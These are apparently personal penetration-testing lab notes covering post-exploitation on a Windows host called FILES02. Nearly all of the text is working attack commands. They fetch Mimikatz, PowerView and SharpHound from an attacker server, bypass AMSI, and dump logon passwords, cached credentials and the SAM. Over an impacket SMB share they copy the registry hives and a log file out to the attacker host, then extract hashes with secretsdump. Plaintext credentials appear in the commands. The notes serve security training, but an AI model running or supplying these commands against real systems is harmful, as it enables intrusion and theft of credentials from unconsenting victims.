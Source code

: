 background sessions
```
ctrl-z on powershell
bg on meterpreter
```

```
Get-ChildItem -Path C:\Users\joe\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

after gaining access to FILES02 using winrm where joe is admin - WINRM ONLY
```
wget https://github.com/BloodHoundAD/BloodHound/blob/a78dff384767f06febf85dc9940e0d84890cfb51/Collectors/SharpHound.ps1

wget https://github.com/clymb3r/PowerShell/blob/bc6d547dcbcdaa2277748975d52ef748755723a4/Invoke-Mimikatz/Invoke-Mimikatz.ps1

iwr -uri http://192.168.45.242:8000/Invoke-Mimikatz.ps1 -Outfile Invoke-Mimikatz.ps1

Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz(privilege::debug)

privilege::debug
sekurlsa::logonpasswords
```

FILES02
- mimikatz dumping cache shows wario, yoshi and Administrator users but no NTLMs
```
iwr -uri http://192.168.45.242:8000/mimikatz.exe -Outfile mimikatz.exe

. .\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
lsadump::cache 
lsadump::sam
```

powerview doesn't seem to work
```
iwr -uri http://192.168.45.242:8000/powerview.ps1 -Outfile powerview.ps1
```

find NTLM hashes in random log file
```
impacket-smbserver -smb2support -user joe -password Flowers1 smb smb 

net use \\192.168.45.242\smb /user:"joe" "Flowers1"
copy sam.save \\192.168.45.242\smb
copy security.save \\192.168.45.242\smb
copy system.save \\192.168.45.242\smb

impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL

copy fileMonitorBackup.log \\192.168.45.242\smb

iconv -f utf-16 -t utf-8 fileMonitorBackup.log | grep 'wario'
iconv -f utf-16 -t utf-8 fileMonitorBackup.log | grep 'yoshi'
iconv -f utf-16 -t utf-8 fileMonitorBackup.log | grep 'peach'
iconv -f utf-16 -t utf-8 fileMonitorBackup.log | grep 'mario'
```
